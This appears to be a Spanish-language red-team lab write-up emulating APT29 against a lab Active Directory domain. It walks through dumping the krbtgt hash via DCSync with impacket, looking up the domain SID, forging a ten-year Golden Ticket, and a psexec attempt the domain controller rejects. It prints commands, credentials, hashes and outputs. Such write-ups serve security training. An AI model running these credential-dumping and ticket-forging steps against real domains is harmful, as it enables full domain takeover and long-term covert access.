



# Persistence — Operación GHOST FOREST
## Fase 9 — Golden Ticket
**Operación:** GHOST FOREST | **Adversario:** APT29 | **Framework:** MITRE ATT&CK v14  
**Operador:** Adrián Camacho | **Fecha:** 13/05/2026  
**Objetivo:** Persistencia mediante Golden Ticket — atackcorp.local

---

## Contexto táctico

El Golden Ticket es una de las técnicas de persistencia más potentes en entornos Active Directory. Consiste en forjar un Ticket Granting Ticket (TGT) Kerberos válido usando el hash NTLM de la cuenta `krbtgt` — la cuenta responsable de firmar todos los tickets del dominio.

Un Golden Ticket forjado permite:
- Acceso a cualquier servicio del dominio como cualquier usuario
- Persistencia independiente de cambios de contraseña de usuarios normales
- Validez configurable (en este caso 10 años)
- Acceso incluso si la cuenta del atacante es eliminada

APT29 utiliza Golden Tickets como mecanismo de persistencia a largo plazo tras comprometer el dominio, asegurando acceso continuado incluso si se detectan y eliminan las cuentas comprometidas.

---

## 9.1 — Obtención del hash krbtgt via DCSync
**Técnica MITRE:** T1003.006 — OS Credential Dumping: DCSync  
> 📸 Captura: 

```bash
impacket-secretsdump atackcorp.local/backup_svc:'Backup2024!'@10.0.2.10 \
  -just-dc-user krbtgt \
  -dc-ip 10.0.2.10
```

**Resultado:**
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d5237a2e43cb315c90679e2a5dae34ad:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:2f123c9bb0d3fadaa6b09592d0a5be11c2d0768cc7f566d8939a5d021e517aa6
krbtgt:aes128-cts-hmac-sha1-96:79f35566bc61f8435618cc25e40392f0
krbtgt:des-cbc-md5:1075dc8a8916e502
```

**Credenciales krbtgt obtenidas:**

| Tipo | Hash |
|------|------|
| NT Hash | `d5237a2e43cb315c90679e2a5dae34ad` |
| AES256 | `2f123c9bb0d3fadaa6b09592d0a5be11c2d0768cc7f566d8939a5d021e517aa6` |
| AES128 | `79f35566bc61f8435618cc25e40392f0` |

---

## 9.2 — Obtención del Domain SID
> 📸 Captura: 

```bash
impacket-lookupsid atackcorp.local/backup_svc:'Backup2024!'@10.0.2.10 | head -5
```

**Resultado:**
```
[*] Brute forcing SIDs at 10.0.2.10
[*] Domain SID is: S-1-5-21-768292631-183641691-1245477636
```

**Domain SID:** `S-1-5-21-768292631-183641691-1245477636`

---

## 9.3 — Forja del Golden Ticket
**Técnica MITRE:** T1558.001 — Steal or Forge Kerberos Tickets: Golden Ticket  
> 📸 Captura: 

```bash
# Forjar con AES256 (preferido por DC modernos)
impacket-ticketer \
  -aesKey 2f123c9bb0d3fadaa6b09592d0a5be11c2d0768cc7f566d8939a5d021e517aa6 \
  -domain-sid S-1-5-21-768292631-183641691-1245477636 \
  -domain atackcorp.local \
  -duration 3650 \
  Administrator
```

**Resultado:**
```
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for atackcorp.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache
```

**Ticket generado:** `Administrator.ccache` | Validez: 3650 días (10 años)

---

## 9.4 — Uso del Golden Ticket

```bash
# Exportar ticket como variable de entorno
export KRB5CCNAME=/home/kali/Administrator.ccache

# Intentar acceso via psexec
impacket-psexec -k -no-pass atackcorp.local/Administrator@DC-01.atackcorp.local
```

**Resultado:**
```
[-] Kerberos SessionError: KDC_ERR_TGT_REVOKED (TGT has been revoked)
```

### Análisis del error

`KDC_ERR_TGT_REVOKED` indica que el DC rechaza el ticket forjado. Las causas probables en Windows Server 2022 son:

| Causa | Descripción |
|-------|-------------|
| **PAC Validation** | Windows Server 2022 valida el PAC contra el DC antes de aceptar tickets |
| **Kerberos Armoring (FAST)** | Requiere pre-autenticación adicional no presente en tickets forjados |
| **Protected Users** | Si Administrator está en el grupo Protected Users, los tickets forjados son rechazados |
| **Clock skew** | Diferencia de tiempo superior a 5 minutos invalida tickets Kerberos |

Se intentó sincronizar el tiempo con el DC:
```bash
sudo net time set -S 10.0.2.10
```

El error persistió tras la sincronización, indicando que la causa es PAC Validation o Kerberos Armoring activo en Windows Server 2022.

---

## 9.5 — Decisión táctica

```
DECISIÓN: Documentar Golden Ticket como técnica aprendida.
          Pivotar a Pass-the-Hash (Fase 10) para completar
          el objetivo de acceso como Administrador.

JUSTIFICACIÓN:
  Windows Server 2022 tiene PAC Validation reforzada que
  dificulta Golden Tickets sin acceso físico al DC para
  modificar configuración de Kerberos Armoring.

  En un engagement real APT29 usaría:
  - Diamond Ticket (variante con PAC válido del DC)
  - Sapphire Ticket (copia de ticket legítimo modificado)
  - O directamente Pass-the-Hash si el objetivo es acceso
    inmediato en lugar de persistencia a largo plazo.

ALTERNATIVA: DCSync del hash de Administrador → Pass-the-Hash
```

---

## Resumen Fase 9

```
FASE 9 — Persistence: Golden Ticket
════════════════════════════════════════════════════════

DATOS OBTENIDOS:
  krbtgt NT hash:  d5237a2e43cb315c90679e2a5dae34ad ✅
  krbtgt AES256:   2f123c9bb0d3fadaa6b09592d0a5be11... ✅
  Domain SID:      S-1-5-21-768292631-183641691-1245477636 ✅
  Ticket forjado:  Administrator.ccache (3650 días) ✅

RESULTADO:
  ✅ T1003.006 — DCSync krbtgt hash obtenido
  ✅ T1558.001 — Golden Ticket forjado correctamente
  ❌ Golden Ticket rechazado por DC (KDC_ERR_TGT_REVOKED)
              PAC Validation / Kerberos Armoring activo

LECCIÓN APRENDIDA:
  Windows Server 2022 implementa validación de PAC reforzada.
  Para persistencia efectiva en entornos modernos se recomienda:
  - Diamond Ticket (T1558.006) — requiere TGT legítimo base
  - Sapphire Ticket — copia de ticket real con SID modificado
  - Silver Ticket (T1558.002) — para servicios específicos
```

---

**Siguiente fase:** [objective_completion.md](objective_completion.md) — Fase 10: DCSync + Pass-the-Hash